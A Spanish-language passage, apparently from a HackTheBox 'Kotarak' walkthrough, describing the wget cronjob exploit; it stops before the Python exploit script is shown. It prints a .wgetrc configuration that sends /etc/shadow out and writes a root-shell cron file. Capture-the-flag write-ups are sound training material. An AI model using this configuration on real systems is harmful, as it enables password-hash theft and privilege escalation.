 Suponiendo que la máquina tercera está realizando la consulta a intervalos regulares de tiempo, vamos al apartado del exploit **Cronjob with wget scenario**:

![](/assets/images/htb-kotarak/kotarak-exploit.png)

Nos indica que primero debemos crear un archivo `.wgetrc` con el siguiente contenido, esto lo haremos en nuestra máquina de atacantes:

```bash
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
```

Despúes tenemos que crearnos un archivo en python: `wget-exploit.py` al cual vamos a retocar para ajustarlo a nuestro caso, esto en la máquina víctima modificando los siguientes campos:
